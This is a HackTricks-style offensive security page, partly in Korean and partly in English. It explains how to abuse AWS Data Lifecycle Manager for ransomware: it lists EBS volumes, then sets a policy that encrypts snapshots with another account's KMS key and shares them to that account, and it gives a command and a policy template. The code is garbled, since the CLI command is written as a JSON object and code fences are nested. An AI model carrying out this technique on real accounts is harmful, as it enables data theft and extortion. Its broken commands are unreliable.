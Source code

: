 # AWS - 데이터 라이프사이클 관리자

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 제로부터 AWS 해킹을 전문가로 배우세요!</summary>

HackTricks를 지원하는 다른 방법들:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하고 싶다면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 굿즈**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **해킹 요령을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 저장소에 PR을 제출하세요.

</details>

## 데이터 라이프사이클 관리자 (DLM)

### `EC2:DescribeVolumes`, `DLM:CreateLifeCyclePolicy`

랜섬웨어 공격은 가능한 많은 EBS 볼륨을 암호화한 다음 현재 EC2 인스턴스, EBS 볼륨 및 스냅샷을 삭제함으로써 실행될 수 있습니다. 이 악의적인 활동을 자동화하기 위해 Amazon DLM을 사용하여 다른 AWS 계정의 KMS 키로 스냅샷을 암호화하고 암호화된 스냅샷을 다른 계정으로 전송할 수 있습니다. 또는 암호화하지 않은 스냅샷을 관리하는 계정으로 전송한 다음 그곳에서 암호화할 수도 있습니다. 기존 EBS 볼륨이나 스냅샷을 직접 암호화하는 것은 간단하지 않지만 새 볼륨이나 스냅샷을 생성함으로써 가능합니다.

먼저 인스턴스 ID, 볼륨 ID, 암호화 상태, 첨부 상태 및 볼륨 유형과 같은 볼륨에 대한 정보를 수집하는 명령을 사용할 것입니다.
```aws ec2 describe-volumes```

Secondly, one will create the lifecycle policy. This command employs the DLM API to set up a lifecycle policy that automatically takes daily snapshots of specified volumes at a designated time. It also applies specific tags to the snapshots and copies tags from the volumes to the snapshots. The policyDetails.json file includes the lifecycle policy's specifics, such as target tags, schedule, the ARN of the optional KMS key for encryption, and the target account for snapshot sharing, which will be recorded in the victim's CloudTrail logs.


```bash
```json
{
  "aws dlm create-lifecycle-policy --description": "내 첫 번째 정책",
  "--state": "ENABLED",
  "--execution-role-arn": "arn:aws:iam::12345678910:role/AWSDataLifecycleManagerDefaultRole",
  "--policy-details": "file://policyDetails.json"
}
```
```

A template for the policy document can be seen here:
```bash
```json
{
    "PolicyType": "EBS_SNAPSHOT_MANAGEMENT",
    "ResourceTypes": [
        "VOLUME"
    ],
    "TargetTags": [
        {
            "Key": "ExampleKey",
            "Value": "ExampleValue"
        }
    ],
    "Schedules": [
        {
            "Name": "DailySnapshots",
            "CopyTags": true,
            "TagsToAdd": [
                {
                    "Key": "SnapshotCreator",
                    "Value": "DLM"
                }
            ],
            "VariableTags": [
                {
                    "Key": "CostCenter",
                    "Value": "Finance"
                }
            ],
            "CreateRule": {
                "Interval": 24,
                "IntervalUnit": "HOURS",
                "Times": [
                    "03:00"
                ]
            },
            "RetainRule": {
                "Count": 14
            },
            "FastRestoreRule": {
                "Count": 2,
                "Interval": 12,
                "IntervalUnit": "HOURS"
            },
            "CrossRegionCopyRules": [
                {
                    "TargetRegion": "us-west-2",
                    "Encrypted": true,
                    "CmkArn": "arn:aws:kms:us-west-2:123456789012:key/your-kms-key-id",
                    "CopyTags": true,
                    "RetainRule": {
                        "Interval": 1,
                        "IntervalUnit": "DAYS"
                    }
                }
            ],
            "ShareRules": [
                {
                    "TargetAccounts": [
                        "123456789012"
                    ],
                    "UnshareInterval": 30,
                    "UnshareIntervalUnit": "DAYS"
                }
            ]
        }
    ],
    "Parameters": {
        "ExcludeBootVolume": false
    }
}
```
```

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
